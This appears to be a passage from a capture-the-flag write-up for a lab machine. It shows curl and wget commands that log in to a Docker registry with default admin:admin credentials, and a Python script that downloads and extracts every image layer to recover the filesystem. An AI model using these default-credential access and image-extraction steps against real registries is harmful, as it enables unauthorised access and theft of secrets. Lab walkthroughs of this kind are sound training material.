 I download the manifest for listed tag to get sha5sum of blobs
```
curl https://docker.registry.htb/v2/bolt-image/manifests/latest -u admin:admin -k
```

I wrote a python script to download all blobs and unzip them
```python
import subprocess
blobs =[
    "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b",
    "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee",
    "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c",
    "sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7",
    "sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791",
    "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4",
    "sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0",
    "sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a",
    "sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797",
    "sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff"
]
value = 0
for blob in blobs:
    filename = str(value)+".tar.gz"
    url = "http://docker.registry.htb/v2/bolt-image/blobs/" + blob
    subprocess.call(['wget','--user','admin','--password','admin',url,'-O',filename])
    value = value + 1
    subprocess.call(['tar','-xf',filename])
    subprocess.call(['rm',filename])
```

We obtain filesystem files
```
➜ ls -la
total 88
drwxr-xr-x 21 zy1x zy1x 4096 Oct 27 13:07 .
drwxr-xr-x  3 zy1x zy1x 4096 Oct 27 13:03 ..
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 bin
-rw-r--r--  1 zy1x zy1x 1139 Oct 27 13:06 blobs.py
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2018 boot
drwxr-xr-x  4 zy1x zy1x 4096 Apr 24  2019 dev
drwxr-xr-x 48 zy1x zy1x 4096 Apr 24  2019 etc
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2018 home
drwxr-xr-x  8 zy1x zy1x 4096 May 23  2017 lib
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 lib64
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 media
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 mnt
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 opt
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2018 proc
drwx------  3 zy1x zy1x 4096 Apr 24  2019 root
drwxr-xr-x  7 zy1x zy1x 4096 Apr 24  2019 run
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 sbin
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 srv
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2018 sys
drwxr-xr-x  2 zy1x zy1x 4096 Apr 24  2019 tmp
drwxr-xr-x 10 zy1x zy1x 4096 Apr 24  2019 usr
drwxr-xr-x 12 zy1x zy1x 4096 Apr 24  2019 var
```
